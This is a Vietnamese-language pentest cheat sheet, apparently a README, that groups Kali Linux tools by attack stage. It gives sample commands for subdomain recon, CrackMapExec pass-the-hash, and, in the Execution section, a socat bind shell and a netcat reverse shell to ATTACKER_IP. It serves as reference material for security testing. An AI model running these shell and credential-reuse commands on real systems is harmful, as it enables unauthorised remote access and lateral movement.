# Categories of Kali Linux Tools
> Tổng hợp & phân loại công cụ theo luồng tấn công/pentest. Ngôn ngữ: **vi**  

## 01 – Reconnaissance (trinh sát/thu thập thông tin ban đầu)
- Bước đầu của pentest/red team: gom dữ liệu công khai/ít gây chú ý để hiểu **bề mặt tấn công** trước khi quét sâu/khai thác.
- Hai kiểu:
  - **Passive recon**: OSINT, search engines, DNS công khai… → ít log/ít ồn.
  - **Active recon**: truy vấn trực tiếp mục tiêu (DNS brute-force, HTTP fingerprinting…) → nhanh/giàu dữ liệu nhưng dễ bị phát hiện.
- Nhóm công cụ:
  - **OSINT & subdomain**: theHarvester, Amass, Sublist3r, SpiderFoot, Maltego CE, Recon-NG  
  - **DNS & hạ tầng**: DNSrecon, DNSenum, Fierce  
  - **Fingerprinting & WAF**: WhatWeb, WAFW00F  
  - **Tài liệu & typosquatting**: Metagoofil, urlcrazy  

**Quy trình mẫu**
```bash
amass enum -passive -d example.com -o amass.txt
theHarvester -d example.com -b all -l 200 -f harvest.html
sublist3r -d example.com -o s3.txt
cat amass.txt s3.txt | sort -u > subs_raw.txt
dnsrecon -d example.com -D subs_raw.txt -t brt -c dnsrecon.csv
dnsrecon -d example.com -t axfr
dnsenum --enum example.com
whatweb -a 3 -v https://sub.example.com
wafw00f https://sub.example.com
```
---
## 02 – Resource Development (chuẩn bị tài nguyên)
- Tự chuẩn bị/tùy biến tài nguyên: wordlists, payload/shellcode/webshell, dữ liệu hỗ trợ social engineering.
- Nhóm công cụ:
  - **Wordlists**: SecLists, CeWL, Crunch, CUPP, maskprocessor, rockyou/fasttrack…
  - **Payload & backdoor**: msfvenom, MSSFPC (msfpc), Laudanum (webshell mẫu)

**Quy trình mẫu**
```bash
cat rockyou.txt custom.txt | sort -u > merged.txt
```
- Tạo payload: **msfvenom** hoặc **MSSFPC**.  
- Webshell từ **Laudanum** theo ngôn ngữ server.
---
## 03 – Initial Access (xâm nhập ban đầu)
- Khai thác lỗ hổng, social engineering, cấu hình yếu, injection (SQLi/XSS/command injection…).
- Công cụ:
  - **Khung khai thác**: Metasploit, BeEF, SET
  - **Web**: SQLMap, Commix, WPScan, xsser
  - **Network/IoT**: RouterSploit

**Quy trình**
- Xác định bề mặt tấn công → khai thác → tạo & gửi payload → listener → kiểm tra quyền.
---
## 04 – Execution (thực thi payload/lệnh)
```bash
ncat -lvnp 4444
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
nc -e /bin/bash ATTACKER_IP 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
---
## 05 – Persistence (duy trì hiện diện)
- **Webshell**: Weevely, Laudanum
- **Điểm bám**: Evil-WinRM, SSH authorized_keys
- **Tunnel/Pivot**: Chisel, reGeorg
---
## 06 – Privilege Escalation (leo thang đặc quyền)
- **Enum**: LinEnum, lse, linux-exploit-suggester, BeRoot
- **Exploit**: GTFOBins, kernel exploit
---
## 07 – Defense Evasion (né phát hiện/che giấu)
- **Evasion**: Veil-Evasion, Shellter, BDF, DKMC
- **Packing**: UPX
- **Encoding**: msfvenom encoders, donut, unicorn
---
## 08 – Credential Access (thu/bẻ mật khẩu)
- **Dump**: Mimikatz, Impacket, LaZagne
- **Crack**: Hashcat, John
- **Brute-force**: Hydra, Medusa, Ncrack
---
## 09 – Discovery (khám phá nội bộ)
- **Scan**: Nmap, Masscan
- **Host discovery**: netdiscover, arp-scan
---
## 10 – Lateral Movement (di chuyển ngang)
```bash
cme smb 192.168.1.0/24 -u user -p pass
cme smb 192.168.1.0/24 -u user -H <NTLM_hash>
```
---
## 11 – Collection (thu thập dữ liệu)
- **Capture**: Wireshark, tcpdump
- **Metadata**: exiftool, strings
---
## 12 – Command & Control (C2 / điều khiển)
- **Listener**: Metasploit, ncat, socat
- **Tunnel**: Chisel, frp
- **DNS**: dnscat2, iodine
---
## 13 – Exfiltration (rút dữ liệu)
- **Direct**: scp, rsync, curl
- **Cloud**: rclone
- **Tunnel**: httptunnel, iodine
---
## 14 – Impact (tác động/DoS, gây gián đoạn)
- **HTTP DoS**: slowloris, thc-ssl-dos
- **Multi-protocol**: t50, hping3
---
## 15 – Forensics (pháp y số)
- **Disk**: Autopsy, SleuthKit
- **Memory**: Volatility
- **Extraction**: binwalk, foremost
---
## 16 – Services & Other Tools (dịch vụ & tiện ích)
- **VPN**: OpenVPN, WireGuard, OpenSSH
- **Container/VM**: Docker, QEMU/KVM
- **Automation**: tmux, screen, Git
- **Tools**: curl, wget, vim, nano, Python3, jq

---
## Attack Flow
Recon → Resource Dev → Initial Access → Execution → Persistence → PrivEsc → Defense Evasion → Cred Access → Discovery → Lateral Movement → Collection → C2 → Exfiltration → Impact → Forensics
